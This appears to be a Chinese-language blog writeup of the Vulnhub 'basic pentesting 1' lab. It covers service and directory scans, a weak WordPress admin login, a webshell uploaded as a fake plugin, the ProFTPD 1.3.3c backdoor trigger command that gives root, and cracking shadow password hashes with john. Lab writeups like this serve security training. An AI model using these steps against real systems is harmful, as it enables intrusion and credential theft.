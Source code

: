 ```yaml
---
title: Vulnhub basic pentesting 1 Writeup
date: 2024-08-1
categories: [資安]
tags: [writeup]

description: Vulnhub basic pentesting 1 過程最終取得Root

published: true #不顯示此文章
---
```



## Before

- 攻擊者ip 192.168.18.136
- 靶機ip 192.168.18.139

-------
## 服務掃描

對靶機`192.168.18.139`進行服務掃描:
```bash
nmap -sV -sT -p- 192.168.18.139
```

掃描結果:
```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* ProFTPD 1.3.3c      CVE-2015-3306   
* OpenSSH 7.2p2       CVE-2016-0777,CVE-2016-0778
* Apache httpd 2.4.18 CVE-2016-5387

一開始沒有去注意到這麼多CVE就直接去打網頁了

----
## 目錄掃描 

使用 `dirsearch` 工具進行目錄掃描：
```bash
dirsearch -u "192.168.18.139"
```

掃描結果:
```text
[14:24:47] 200 -  177B  - /index.html
[14:24:53] 301 -  317B  - /secret  ->  http://192.168.18.139/secret/
[14:24:53] 200 -   52KB - /secret/
[14:24:54] 403 -  303B  - /server-status/
[14:24:54] 403 -  302B  - /server-status
```

在 `http://192.168.18.139/secret/` 發現了域名 `http://vtcsec/` 和管理員登入介面 `http://vtcsec/secret/wp-login.php`

起手式`admin:admin`(弱密碼) 成功登入

---------
## 利用WP plugin

製作假`plugin`裡面含`webshell`上傳到伺服器

將`WP plugin`所需的標頭加入到`webshell`裡面:
```text
/*
Plugin Name: wordprees webshell
Plugin URI: IDK
Description: this plugin is websehll 
Version: 1.0
Author: hacker
Author URI: IDK
License: GPL2
*/
```

訪問 `http://vtcsec/secret/wp-admin/plugins.php?plugin=wp_webshell%2Fwp_webshell.php` 讓`webshell`執行 成功`RCE`

---------------------------
## 交互式Bash Shell

利用`webshell`送出一個以下指令取得交互式的`Bash shell`:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

-------
## 後續操作

在`/home/marlinspike`找路徑看到才發現`ProFTPD 1.3.3c`的後門漏洞:
```text
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

發現 `ProFTPD 1.3.3c` 存在後門漏洞 `CVE-2015-3306`，特定指令可獲得 root 權限：
```bash
ps aux | grep proftpd

nc 192.168.18.139 21

HELP ACIDBITCHEZ
```
![getrootimage](spencerkuku.github.io/_posts/images/getroot.png)
> 可以使用metasoloit但是我還沒學 哈哈哈哈哈哈 

---------
### 密碼爆破

- **準備文件**
    - **`passwd.txt`**: 這個文件包含了 **`/etc/passwd`** 文件的內容，列出了系統中的用戶和基本信息，但不包括密碼哈希。
    - **`shadow.txt`**: 這個文件包含了 **`/etc/shadow`** 文件的內容，存儲了加密的密碼哈希。
- **合併文件**
    
    - 使用 **`unshadow`** 工具來將 **`passwd.txt`** 和 **`shadow.txt`** 合併成一個文件 **`combined.txt`**，這個文件包含了用戶名和加密的密碼哈希，格式適合於 **`john`** 工具進行破解：
    
        ```bash
        sudo unshadow passwd.txt shadow.txt > combined.txt
        ```
- **破解密碼**
    
    - 使用 **`john`** 工具來對 **`combined.txt`** 文件中的密碼哈希進行破解：
        
		```bash
	    john combined.txt
        ```
        
    - **`john`** 會嘗試使用字典攻擊和其他破解技術來解密密碼哈希。
- **顯示結果**
    
    - 破解完成後，使用 **`john`** 的 **`--show`** 選項來顯示破解得到的原始密碼：
    
        ```bash
		john --show combined.txt
        ```

    - 會顯示出密碼（**`********`**）。

------------------------


